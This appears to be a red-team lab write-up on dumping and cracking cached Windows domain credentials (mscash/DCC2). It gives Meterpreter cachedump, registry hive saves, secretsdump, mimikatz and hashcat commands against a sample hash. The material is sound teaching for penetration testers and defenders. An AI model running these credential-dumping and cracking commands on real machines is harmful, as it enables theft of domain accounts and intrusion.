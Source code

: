 ```yaml
---
layout: post
title: "dumping and cracking mscash cached domain credentials"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /credential-access-and-credential-dumping/
---
```


# Dumping and Cracking mscash - Cached Domain Credentials

This lab focuses on dumping and cracking mscash hashes after SYSTEM level privileges has been obtained on a compromised machine.

`Mscash` is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Domain credentials are cached on a local system so that domain members can logon to the machine even if the DC is down. It's worth noting that mscash hash is not passable - i.e PTH attacks will not work.

## Execution

### Meterpreter

Note that in meterpreter session, hashdump only dumps the local SAM account hashes:

{% code title="attacker@kali" %}
```
hashdump
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-59-09.png>)

To dump cached domain credentials in mscash format, use a post exploitation module `cachedump`:

{% code title="attacker@kali" %}
```csharp
getuid
getsystem
use post/windows/gather/cachedump
run
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-53-09.png>)

### Secretsdump

Impacket's secrestdump tool allows us to dump all the credentials that are stored in registry hives SAM, SECURITY and SYSTEM, so firstly, we need to write those out:

{% code title="attacker@victim" %}
```csharp
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-56-47.png>)

Once the hives are retrieved, they can can be pulled back to kali linux to extract the hashes:

{% code title="attacker@kali" %}
```csharp
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-57-28.png>)

### Mimikatz

```
lsadump::cache
```

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-32-15.png>)

## Cracking mscash / mscache with HashCat

To crack mscache with hashcat, it should be in the following format:

```csharp
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

Below shows the original output format from cachedump and the format accepted by hashcat:

```csharp
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```

![](<../../.gitbook/assets/Screenshot from 2019-02-02 16-54-29.png>)

Let's try cracking it with hashchat now:

{% code title="attacker@kali" %}
```csharp
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 16-57-55.png>)

## Where Are Domain Credentials Cached

This can be seen via regedit (running with SYSTEM privileges) in the following key:

```
HKEY_LOCAL_MACHINE\SECURITY\Cache
```

`NL$1..10` are the cached hashes for 10 previously logged users:

![](<../../.gitbook/assets/Screenshot from 2019-02-02 17-03-15.png>)

By nulling out the Data fields one could remove the credentials from cache. Once cached credentials are removed, if no DC is present, a user trying to authenticate to the system will see:

![](<../../.gitbook/assets/Screenshot from 2019-02-02 17-10-00.png>)

## References

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}

{% embed url="https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/" %}
@spotheplanet
